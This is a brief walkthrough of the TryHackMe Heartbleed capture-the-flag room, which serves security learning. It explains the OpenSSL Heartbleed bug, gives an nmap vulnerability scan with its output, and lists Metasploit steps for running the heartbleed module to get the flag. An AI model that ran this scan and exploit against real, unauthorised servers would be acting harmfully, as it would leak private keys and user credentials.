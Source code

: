 ```yaml
---

title: Walkthrough - Heartbleed
published: false
---
```


Tags: Heartbleed, CTF, metasploit.
Description: SSL issues are still lurking in the wild. Can you exploit this web servers OpenSSL?
Difficulty: Easy
URL: [https://tryhackme.com/room/heartbleed](https://tryhackme.com/room/heartbleed)

* * *

## Notes

Heartbleed is a bug due to the implementation in the OpenSSL library from versions 1.0.1 to 1.0.1f(which is very widely used). It allows a user to access memory on the server(which they usually wouldn't have access to). This in turn allows a malicious user to access different kinds of information(that they wouldn't usually have access to due to the encryption and integrity provided by TLS) including:

   - server private key

   - confidential data like usernames, passwords and other personal information

- `sudo nmap -sC -sV -sT --script vuln -O 54.246.8.10 -p22,25,111,113,443,58869`

```
443/tcp   open     ssl/http nginx 1.15.7
| ssl-ccs-injection: 
|   VULNERABLE:
|   SSL/TLS MITM vulnerability (CCS Injection)
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
|       does not properly restrict processing of ChangeCipherSpec messages,
|       which allows man-in-the-middle attackers to trigger use of a zero
|       length master key in certain OpenSSL-to-OpenSSL communications, and
|       consequently hijack sessions or obtain sensitive information, via
|       a crafted TLS handshake, aka the "CCS Injection" vulnerability.
|           
|     References:
|       http://www.cvedetails.com/cve/2014-0224
|       http://www.openssl.org/news/secadv_20140605.txt
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0224
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt 
|       http://cvedetails.com/cve/2014-0160/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
```

1. `msfconsole`
2. `search openssl heartbleed`
3. set options
4. exploit 
5. I had to run this exploit about 4-5 times in order to find the flag.

* * * 

![0xskar](/assets/heartbleed01.png)

* * * 

